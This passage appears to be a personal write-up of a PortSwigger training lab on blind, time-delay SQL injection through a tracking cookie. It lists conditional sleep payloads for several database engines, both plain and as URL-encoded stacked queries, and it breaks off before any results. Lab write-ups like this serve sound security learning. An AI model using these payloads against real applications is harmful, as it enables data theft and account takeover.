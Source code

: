 # Lab: Blind SQL injection with time delays and information retrieval

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Hint

Check out the SQLi cheat sheet

![image](https://user-images.githubusercontent.com/83407557/172084631-72e84084-1d39-4af7-84fa-b1479377b76b.png)


## Step 1 Finding injection point

Since I am not sure what the database type is, I can check for a timing delay using the conditional time delay payloads from portswigger

```sql
'SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--

'IF (1=1) WAITFOR DELAY '0:0:10'--

'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

'SELECT IF(1=1,sleep(10),'a')--
```

None of these were working for me until I decided to reread the cheat sheet, per the hint. On a whim I decided to try running these commands as stacked queries (so they will be prefaced with a semicolon.) They will also have to have certain characters url encoded.

```sql
'%3BSELECT+CASE+WHEN+(1%3d1)+THEN+'a'||dbms_pipe.receive_message(('a'),10)+ELSE+NULL+END+FROM+dual--

'%3BIF+(1%3d1)+WAITFOR+DELAY+'0:0:10'--

'%3BSELECT+CASE+WHEN+(1%3d1)+THEN pg_sleep(10)+ELSE+pg_sleep(0)+END--

'%3BSELECT+IF(1%3d1,sleep(10),'a')--
```

I send each of these as an intruder payload:
